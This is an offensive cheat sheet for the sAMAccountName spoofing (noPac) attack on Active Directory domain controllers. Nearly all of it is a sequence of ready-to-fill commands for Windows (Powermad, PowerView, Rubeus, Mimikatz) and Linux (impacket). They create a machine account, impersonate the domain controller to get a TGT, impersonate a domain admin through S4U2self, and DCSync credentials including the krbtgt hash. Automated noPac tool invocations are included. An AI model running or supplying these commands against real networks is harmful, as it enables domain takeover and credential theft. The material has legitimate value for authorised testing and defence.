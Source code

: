 # sAMAccountName spoofing

## Windows

### Add computer account
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### Set serviceprincipalname to empty value
```
Set-DomainObject -Identity <newComputer> -Clear serviceprincipalname
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
Set-MachineAccountAttribute -MachineAccount "<newComputer>" -Value "<dcNo$>" -Attribute samaccountname -Verbose
```

### Request a TGT for new computer account
```
Rubeus.exe asktgt /user:"<dcNo$>" /password:"<newPassword>" /domain:"<domain>" /dc:"<fqdnDc>" /nowrap
```

### Reset the controlled machine account sAMAccountName to its old value
```
Set-MachineAccountAttribute -MachineAccount "dcNo$" -Value "<newComputer>" -Attribute samaccountname -Verbose
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
Rubeus.exe s4u /self /impersonateuser:"<domainAdmin>" /altservice:"cifs/<fqdnDc>" /dc:"<fqdnDc>" /ptt /ticket:<base64>
```

### Dcsync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /kdc:<fqdnDc> /user:<targetUser>"'
```

### Automatic - receive TGT of vulnerable domain controller
```
.\noPac.exe scan -domain <domain> -user <user> -pass <password>
```

## Linux

### Add computer account
```
impacket-addcomputer -computer-name '<newComputer>' -computer-pass '<newComputerPassword>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Set serviceprincipalname to empty value
```
impacket-addspn -u '<domain>\<user>' -p '<password>' -t '<newComputer>' -dc-ip <dcIp>
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
renameMachine -current-name '<newComputer$>' -new-name '<domainController>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Request a TGT for new computer account
```
impacket-getTGT -dc-ip <dcIp> '<domain>/<domainController>:<newComputerPassword>'
```

### Reset the controlled machine account sAMAccountName to its old value
```
renameMachine -current-name '<domainController>' -new-name '<newComputer$>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
KRB5CCNAME='domainController.ccache' impacket-GetST -self -impersonate '<targetAdmin>' -spn 'cifs/<domainController>.<domain>' -k -no-pass -dc-ip <dcIp> '<domain>'/'<domainController>'
```

### Dcsync
```
KRB5CCNAME='targetAdmin.ccache' impacket-secretsdump -just-dc-user 'krbtgt' -k -no-pass -dc-ip <dcIp> @<fqdn>
```

### Automatic - receive TGT of vulnerable domain controller
```
python noPac.py <domain>/<user>:<password> -dc-ip <dcIp>
```

### References
https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html  
https://github.com/cube0x0/noPac  
https://github.com/Ridter/noPac  
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  
https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1  
https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
https://raw.githubusercontent.com/SecureAuthCorp/impacket/b4fbcf9196e9b6098edae0ae7794005d2e138ccd/examples/renameMachine.py  
https://www.cvedetails.com/cve/CVE-2021-42278  
https://www.cvedetails.com/cve/CVE-2021-42287  
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing  

